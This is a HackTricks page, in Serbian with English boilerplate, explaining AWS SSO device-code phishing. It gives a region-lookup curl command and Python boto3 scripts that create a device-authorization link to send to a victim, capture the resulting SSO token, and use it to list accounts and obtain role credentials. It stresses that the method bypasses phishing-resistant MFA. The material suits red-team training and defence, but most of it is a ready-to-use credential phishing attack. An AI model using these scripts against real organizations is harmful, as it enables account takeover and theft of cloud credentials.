 # AWS - Identity Center & SSO Neautentifikovana Enum

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## AWS Device Code Phishing

Prvobitno predloženo u [**ovom blog postu**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), moguće je poslati **link** korisniku koji koristi AWS SSO koji, ako **korisnik prihvati**, napadaču će omogućiti da dobije **token za impersonaciju korisnika** i pristup svim rolama kojima korisnik može pristupiti u **Identity Center**.

Da bi se izveo ovaj napad, zahtevi su:

* Žrtva mora koristiti **Identity Center**
* Napadač mora znati **subdomen** koji koristi žrtva `<victimsub>.awsapps.com/start`

Samo sa prethodnim informacijama, **napadač će moći da pošalje link korisniku** koji, ako bude **prihvaćen**, omogućava **napadaču pristup AWS korisničkom** nalogu.

### Napad

1. **Pronalaženje subdomena**

Prvi korak napadača je da sazna koji subdomen koristi kompanija žrtve u svom Identity Center-u. To se može uraditi putem **OSINT** ili **pogađanja + BF** jer će većina kompanija koristiti svoje ime ili varijaciju svog imena ovde.

Sa ovom informacijom, moguće je dobiti region u kojem je Identity Center konfigurisan:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generišite link za žrtvu i pošaljite ga**

Pokrenite sledeći kod da generišete AWS SSO login link kako bi žrtva mogla da se autentifikuje.\
Za demo, pokrenite ovaj kod u python konzoli i ne izlazite iz nje jer će vam kasnije biti potrebni neki objekti za dobijanje tokena:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Pošaljite generisanu vezu žrtvi koristeći svoje sjajne veštine socijalnog inženjeringa!

3. **Sačekajte da žrtva prihvati**

Ako je žrtva **već bila prijavljena na AWS**, samo će morati da prihvati dodeljivanje dozvola, ako nije, moraće da **se prijavi i zatim prihvati dodeljivanje dozvola**.\
Ovako izgleda promp danas:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Dobijte SSO pristupni token**

Ako je žrtva prihvatila promp, pokrenite ovaj kod da **generišete SSO token imitujući korisnika**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO pristupni token je **važeći 8h**.

5. **Imitirati korisnika**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Zanimljivo je znati da prethodni napad **radi čak i ako se koristi "nephishable MFA" (webAuth)**. To je zato što prethodni **tok rada nikada ne napušta korišćeni OAuth domen**. Za razliku od drugih phishing napada gde korisnik mora da zameni domen za prijavu, u ovom slučaju je tok rada sa kodom uređaja pripremljen tako da **kod poznaje uređaj** i korisnik može da se prijavi čak i na drugom računaru. Ako se prihvati poruka, uređaj, samo **znajući početni kod**, će moći da **dobije akreditive** za korisnika.

Za više informacija o ovome [**proverite ovaj post**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
